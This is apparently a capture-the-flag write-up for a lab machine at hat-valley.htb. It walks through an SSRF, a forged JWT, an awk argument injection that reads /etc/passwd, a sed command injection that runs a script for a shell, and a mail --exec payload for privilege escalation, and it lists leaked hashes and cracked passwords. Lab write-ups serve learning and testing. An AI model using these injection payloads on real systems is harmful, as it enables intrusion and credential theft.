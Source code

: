 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Accessing port 80 through browser site will redirect to this hostname

baseurl
```bash
http://hat-valley.htb
```
Fuzzing subdomain
```bash
subdomain
http://store.hat-valley.htb
```
found endpoints from 
```bash
http://hat-valley.htb/js/app.js
```
endpoints

```bash
http://hat-valley.htb/hr
http://hat-valley.htb/dashboard
http://hat-valley.htb/leave
```
api endpoints
```bash
http://hat-valley.htb/api/
http://hat-valley.htb/api/all-leave {Need Auth}
http://hat-valley.htb/submit-leave {reason,start,end} {Need Auth}
http://hat-valley.htb/api/login   {username,password}
http://hat-valley.htb/api/staff-details {No need of auth}
http://hat-valley.htb/api/store-status {url:"value"} {No need of auth}
```

Names from Teams
```bash
jackson Lightheart
bean Hill
christine Wool {CEO}
christopher Jones
```
Login
```bash
http://store.hat-valley.htb {basic Auth}
http://hat-valley.htb/hr   {"username":"password"}
```

This endpoint is vulnerable for access control we don't need any token for getting these data
http://hat-valley.htb/api/staff-details

Found username and it's passwords
```bash
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
```

One hash is crackable
cracked password
```bash
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

SSRF from store-status endpoint and found the backend server listening port 3002 and the response show some api documention
http://hat-valley.htb/api/store-status?url="http://localhost:3002"

Api documentation 
patached.html

Reading the documentation i found a file read in all-leave endpoint

Abusing "awk"
This endpoint is used to fetch user leave requests and the endpoint need user token to fetch the details
the mechanisam behind the fetching user details it use awk command (linux command) for getting data from leave requests stored file that is a csv file on target. server will extract username from user token and getting that particuler user data from csv file using awk. we need to foreging the cookie for injecting filename in username feild of the token

```bash
#bruteforceing the cookie using john and jwt2john tool 
jwt secret = 123beany123
```
rawCommand
```bash
awk '/user/' leave_requests.csv
```

abusedCommand
```bash
awk '//' /etc/passwd '/' leave_reve_requests.csv
```

FOOTHOLD

I write a python script for reading file from target

Machine users
```bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Machine user bean password from home_backup tar file
```bash
bean:014mrbeanrules!#P
```
user to www-data

exploiting sed system command on store.hat-valley.htb

payload
```bash
/' -e '1e /dev/shm/rce.sh' '
```
it work like this
```javascript
{sed -i '/item_id=/' -e '1e /dev/shm/rce.sh' '/d' /var/www/store/cart/randomuser-id}
````

I write a script for getting www-data shell

Privilege escalation through mail command
```bash
#payload
; --exec='!/dev/shm/cmd.sh',pe,pe,pe,pe
```

#scripts are i used for this machine will also upload the awkward directory